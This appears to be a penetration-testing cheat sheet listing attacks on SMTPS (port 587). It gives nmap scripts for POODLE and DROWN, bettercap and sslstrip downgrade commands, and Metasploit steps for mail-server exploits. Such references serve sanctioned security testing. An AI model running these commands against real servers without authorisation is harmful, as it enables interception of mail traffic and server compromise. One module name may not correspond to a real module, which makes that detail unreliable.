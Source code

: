 ### POODLE (Padding Oracle On Downgraded Legacy Encryption)
- **Tool:** [[Nmap]]
    ```bash
    nmap --script ssl-poodle -p 587 <target_ip>
    ```
- **Description:** Exploit the POODLE vulnerability by forcing a downgrade to SSL 3.0 and performing a padding oracle attack.

### DROWN (CVE-2016-0800)
- **Tool:** [[Nmap]]
	```bash
	nmap --script ssl-drown -p 587 <target_ip>
	```
- **Description:** Exploit the DROWN vulnerability by attacking servers that support both SSLv2 and TLS, potentially decrypting secure connections.

### SSL/TLS Downgrade Attack
- **Tool:** [[BetterCap Cheat Sheet]], [[SSLStrip Cheat Sheet]]
     ```bash
     bettercap -iface <interface> -T <target_ip> --proxy
     
     sslstrip -l 587
     ```
- **Description:** Forces a downgrade of the SSL/TLS connection to a weaker protocol that can be exploited or decrypted.

### SMTPS Command Injection
- **Tool:** [[Metasploit]]
    ```bash
    msfconsole
    use exploit/unix/smtp/exim4_string_format
    set RHOST <target_ip>
    set RPORT 587
    exploit
    ```
- **Description:** Exploiting format string vulnerabilities in older mail servers to execute arbitrary commands with elevated privileges.

### Buffer Overflow in SMTPS Daemon
- **Tool:** [[Metasploit]]
    ```bash
    msfconsole
    use exploit/linux/smtp/sendmail_buffer_overflow
    set RHOST <target_ip>
    set RPORT 587
    exploit
    ```
- **Description:** Targeting a buffer overflow vulnerability in a specific SMTPS daemon to execute arbitrary code or gain control of the server.
